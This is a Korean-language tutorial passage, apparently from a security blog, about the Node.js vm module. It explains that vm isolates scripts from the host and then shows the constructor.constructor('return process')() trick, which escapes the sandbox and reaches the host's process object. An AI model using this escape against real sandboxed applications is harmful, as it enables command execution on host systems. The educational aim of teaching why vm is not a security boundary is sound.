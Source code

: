 ![Untitled](/assets/2023-03-29/Untitled%201.png)

VM 모듈을 사용하면 `process is not defined` 에러 메세지를 확인할 수 있습니다. 이와 같이 생성된 가성머신 내에서 스크립트를 실행하고 호스트 시스템에 대한 접근을 제한하고 있는 것을 확인할 수 있습니다.

따라서, 어플리케이션의 특정 코드에서 커맨드 인젝션 취약점이 발생하더라도 VM 환경에서 동작하고 있다면 호스트 시스템에 대한 명령어 실행을 제한할 수 있습니다.

이러한 환경을 샌드박스(Sandbox)라고 합니다.

# How to breakout nodejs VM Sandbox?

그렇다면 이러한 환경에서는 호스트 시스템에 대한 접근이 불가능한 것일까요?

아래 코드를 보면 원래 접근할 수 없었던 nodejs 내부의 process에 VM 환경임에도 접근이 가능한 것을 확인할 수 있습니다.

```jsx
// process.js
"user strict";

console.log(process);
```

![Untitled](/assets/2023-03-29/Untitled 2.png)

```jsx
// vm_process.js
"use strict";
const vm = require("vm");

var tmp = vm.runInNewContext(`this.constructor.constructor("return process")()`);
console.log(tmp);
```

